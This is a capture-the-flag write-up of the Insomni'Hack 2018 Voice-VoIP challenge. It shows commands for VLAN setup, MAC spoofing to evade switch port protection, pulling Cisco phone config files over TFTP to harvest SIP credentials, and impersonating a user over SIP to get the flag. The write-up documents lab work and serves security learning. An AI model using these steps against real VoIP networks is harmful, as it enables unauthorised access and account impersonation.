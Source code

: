```yaml
---
title: Insomni'Hack 2018 - Voice-VoIP
redirect_from: "Writeups/2018/Insomni'hack/voice-voip/"
authors: Crypt0-M3lon
---
```


# {{page.title}}
Solves: 6 / Points: 307

## Challenge description
> All the LAN ports are configured for this Cisco VOIP challenge. (this challenge does not work with the Wifi !).
> The characters are based around the film of the Silence of the Lambs [1991].
> The flag is like in the last scene of the film.
> 
> 
> 
> Hint : The voip challenge is on vlan 231 or 232
> 
> Tip : Don't use same MAC address as the Network as some protection and you would trigger turn off your LAN port


## Challenge resolution
The first step is to set up the vlan on our network intertace:
``$ ip link add link enp9s0 name enp9s0.231 type vlan id 231``

Due to security features enabled on the switch, it is mandatory to change the MAC address of the interface before running the DHCP request:
```shell
$ macchanger -r enp9s0.231
$ dhclient -v enp9s0.231
```
The option 128 is present in the DHCP Offer. This option is used to specify TFTP servers available on the network. The TFTP server address is 198.51.100.20, but as there is no file listing on TFTP servers, we need to know the name of the files to download. Common practice is to name the config file with the MAC address of the phone. 
By running nmap on the VOIP subnet, we can identify a Cisco phone at 192.168.231.5 with the following MAC address: 00:1A:2F:CB:72:2A. According to Cisco documentation, the configuration file is named SIP<MAC_ADDRESS>.cnf, let's try to download it:
```shell
$ atftp -g -r SIP001A2FCB722A.cnf 198.51.100.20
$ cat SIP001A2FCB722A.cnf
proxy1_address: "198.51.100.118"

line1_name: "2184"
line1_shortname: "Hannibal Lecter"
line1_displayname: "Hannibal Lecter"
line1_authname: "2184"
line1_password: "kfm8mmd*8"
[...]
```
We now have:
* The IP address of the SIP server: 198.51.100.118
* Hannibal Lecter account:
    * Login: 2184
    * Password: kfm8mmd*8

But we still need to know Clarice's phone number. After an unsuccessful bruteforce to discover new user's phone number using _svwar_ from _Sipvicious_ (who is 2866?), we finally downloaded the default config file from the TFTP server:
```shell
$ atftp -g -r SIPDefault.cnf 198.51.100.20
$ cat SIPDefault.cnf
[...]
#services_url: "http://example.domain.tld/services/menu.xml"
#directory_url: "http://example.domain.tld/services/directory.php"
directory_url: "http://198.51.100.20/directory.xml"
[...]
``` 
Wut! A directory file is present on the TFTP server and it contains the phone number of Clarice:  6834. 
From now, we just need to set up a SIP client, impersonate Hannibal by using previously gathered credentials and call Clarice at 6834@198.51.100.118. A bot answers our call and gives us the flag.

{% capture page_authors %}{{ page.authors }}{% endcapture %}
{% include authors.html authors=page_authors %}